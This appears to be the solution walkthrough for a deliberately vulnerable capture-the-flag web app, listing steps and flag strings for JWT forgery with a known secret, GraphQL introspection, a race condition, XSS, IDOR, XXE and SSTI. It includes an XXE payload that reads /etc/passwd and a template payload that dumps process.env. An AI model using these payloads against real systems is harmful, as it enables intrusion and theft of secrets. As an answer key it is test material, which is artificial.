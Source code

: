 ### JWT Manipulation
1. Login to obtain a valid JWT
2. Decode the JWT (e.g., using jwt.io)
3. Change the `isAdmin` field to `true`
4. Sign the token using the secret `darkvault-secret-key`
5. Send a GET request to `/api/admin/dashboard` with the modified token in the Authorization header
6. The response will contain `DARK{jwt_4dm1n_3sc4l4t10n}`

### GraphQL Introspection
1. Send a POST request to `/api/graphql` with body:
```json
{
  "query": "{ __schema { types { name fields { name type description } } } }"
}
```
2. The response will contain `DARK{gr4phql_1ntr0sp3ct10n}` in the description field of the secretFlag field

### Race Condition
1. Send 3+ concurrent POST requests to `/api/update-balance` with body `{"userId": 1, "amount": 100}`
2. The response to one of these requests will contain `DARK{r4c3_c0nd1t10n_3xpl01t3d}`

### XSS
1. Send a POST request to `/api/messages` with body:
```json
{
  "title": "Test Message",
  "content": "<script>alert('XSS')</script>",
  "author": "Hacker"
}
```
2. The response will contain `DARK{xss_3xpl01t3r}`

### IDOR
1. Send a GET request to `/api/users/9999`
2. The response will contain `DARK{1d0r_vuln3r4b1l1ty}` in the user object

### XXE
1. Send a POST request to `/api/import-xml` with body:
```json
{
  "xml": "<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>&xxe;</foo>"
}
```
2. The response will contain `DARK{xxe_data_extr4ct0r}`

### SSTI
1. Send a POST request to `/api/render-template` with body:
```json
{
  "template": "<%= process.env %>",
  "data": {}
}
```
2. The response will contain `DARK{t3mpl4t3_1nj3ct10n}`

